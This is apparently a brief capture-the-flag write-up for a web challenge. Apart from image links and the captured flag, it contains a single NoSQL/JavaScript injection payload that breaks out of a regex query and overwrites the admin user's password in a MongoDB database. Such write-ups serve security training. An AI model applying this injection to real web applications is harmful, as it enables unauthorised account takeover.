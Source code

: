 #### 200 points Break in to this web 3.0 website

This guy uses the latest and greatest techniques, can you still pwn him?

![](attachments/Pasted%20image%2020230515234635.png)
![](attachments/Pasted%20image%2020230515234654.png)
![](attachments/Pasted%20image%2020230515234704.png)
![](attachments/Pasted%20image%2020230515234715.png)

```js
admin/i}})[0];db.users.update({'name':'admin'}, {$set:{'password':'admin'}} )//
```
![](attachments/Pasted%20image%2020230515234807.png)
![](attachments/Pasted%20image%2020230515234822.png)

## Flag
CTF{f706cf01138a31d91e90c7e659e4bf7b}